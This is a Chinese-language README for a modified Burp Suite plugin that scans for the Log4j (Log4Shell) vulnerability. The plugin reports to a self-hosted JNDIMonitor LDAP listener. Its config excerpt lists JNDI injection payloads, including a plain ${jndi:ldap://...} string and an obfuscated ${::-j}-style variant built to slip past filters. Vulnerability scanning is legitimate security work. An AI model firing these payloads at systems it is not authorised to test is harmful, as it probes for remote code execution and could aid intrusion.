


# log4jScan_Modify



**本插件修改自：https://github.com/pmiaowu/log4j2Scan/commit/d160bf2349cb2f423300469a48de53c75a8031ec**

**根据原插件DnsLogCn模块的判定逻辑，修改为对接 [JNDIMonitor [一个LDAP请求监听器，摆脱dnslog平台]](https://github.com/r00tSe7en/JNDIMonitor) 的`api2=all`接口使用。**

插件详情及编译方法参考：https://github.com/pmiaowu/log4j2Scan

# 插件使用

## 0x01 启动JNDIMonitor监听

参考：https://github.com/r00tSe7en/JNDIMonitor

## 0x02 修改和编译log4jScan_Modify插件

1）下载 `log4jScan_Modify` 源码

2）需要修改`log4j2Scan_modify\src\main\java\burp\DnsLogModule\ExtensionMethod\LdapLogCn.java`中的`ip:port`为`JNDIMonitor`监听的`ip`和`port`

```java
    private String dnslogDomainName = "http://ip:port/?api2=all"; //JNDIMonitor监听http的api2接口
    private String temporaryDomainName = "ip:port"; //JNDIMonitor监听ldap的接口
```

3）`config.yml`默认已经配好，由于对接的是`ldap`监听器，所以已经把不相关的其他协议`payload`注释掉了，如果还有其他的`ldap bypass payload` 可以自己手动加进去。

```yaml
#- "${jndi:dns://dnslog-url/t}"
#- "%24%7Bjndi%3Adns%3A%2F%2Fdnslog-url%2Ft%7D"
- "${jndi:ldap://dnslog-url/t}"
#- "${jndi:rmi://dnslog-url/t}"
- "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://dnslog-url/t}"
#- "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dnslog-url/t}"
```

4）修改完成后就可以开始编译了，生成的插件文件在如下目录。

```
log4j2Scan_modify\target\log4j2Scan
 -/resources/config.yml
 -log4jScan_modify.jar
```

5）开始被动检测即可，可以看到检测日志。



# 感谢

@pmiaowu

@melon
